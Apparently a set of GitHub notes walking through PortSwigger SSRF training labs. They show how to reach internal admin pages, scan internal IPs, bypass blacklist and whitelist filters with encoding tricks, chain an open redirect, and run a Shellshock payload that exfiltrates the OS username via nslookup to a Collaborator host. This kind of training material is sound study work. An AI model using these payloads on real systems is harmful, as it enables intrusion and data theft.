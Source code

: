 SSRF(Server Side Request Forgery)


Lab: Basic SSRF against the local server
 This lab has a stock check feature which fetches data from an internal system.
 To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 
  
 Browse to /admin and observe that you can't directly access the admin page. 
 Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
 Change the URL in the stockApi parameter to http://localhost/admin. This should display the administration interface.
 Read the HTML to identify the URL to delete the target user, which is:
 http://localhost/admin/delete?username=carlos
 Submit this URL in the stockApi parameter, to deliver the SSRF attack.

Lab: Basic SSRF against another back-end system
 This lab has a stock check feature which fetches data from an internal system.
 To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 
 Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Intruder.
 Click "Clear §", change the stockApi parameter to http://192.168.0.1:8080/admin then highlight the final octet of the IP address (the number 1), click "Add §".
 Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
 Click "Start attack".
 Click on the "Status" column to sort it by status code ascending. You should see a single entry with a status of 200, showing an admin interface.
 Click on this request, send it to Burp Repeater, and change the path in the stockApi to: /admin/delete?username=carlos

Lab: SSRF with blacklist-based input filter
 This lab has a stock check feature which fetches data from an internal system.
 To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
 The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 
 
  Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
  Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the request is blocked.
  Bypass the block by changing the URL to: http://127.1/
  Change the URL to http://127.1/admin and observe that the URL is blocked again.
  Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.


Lab: SSRF with whitelist-based input filter
 This lab has a stock check feature which fetches data from an internal system.
 To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
 The developer has deployed an anti-SSRF defense you will need to bypass. 
 click on check stock and intercept it then send it to burp repeater.
 change url parameter to  localhost on stockapi it will blocked by whitelist
 Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
 Append a # to the username and observe that the URL is now rejected.
 Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
 To access the admin interface and delete the target user, change the URL to:
 http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos


Lab: SSRF with filter bypass via open redirection vulnerability
 This lab has a stock check feature which fetches data from an internal system.
 To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.
 The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 

 intercept check stock and next product and watch nect product is redirecting you to the next page . if you try previously learned technique they all will be failed .. 
 changing path of stock api may not help
 in stock api /product/nextProduct?path=http://192.168.0.12:8080/admin you'll get admin page from this and if ou look into the code that with lead you to the path of deleting carlos.
 Amend the path to delete the target user:
 /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos




Lab: Blind SSRF with out-of-band detection
  This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
 To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server. 
 intercept both home page and view detail
 add burp collaborator on referral the lab will be solved
  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
 You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. 

Lab: Blind SSRF with Shellshock exploitation
  This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
 To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.


    In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
    Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
    Browse the site.
    Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
    Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
    Send the request to the product page to Burp Intruder.

    Use Burp Collaborator client to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload:
    () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net
    Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
    Click "Clear §", change the Referer header to http://192.168.0.1:8080 then highlight the final octet of the IP address (the number 1), click "Add §".
    Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
    Click "Start attack".
    When the attack is finished, go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.
    To complete the lab, enter the name of the OS user.


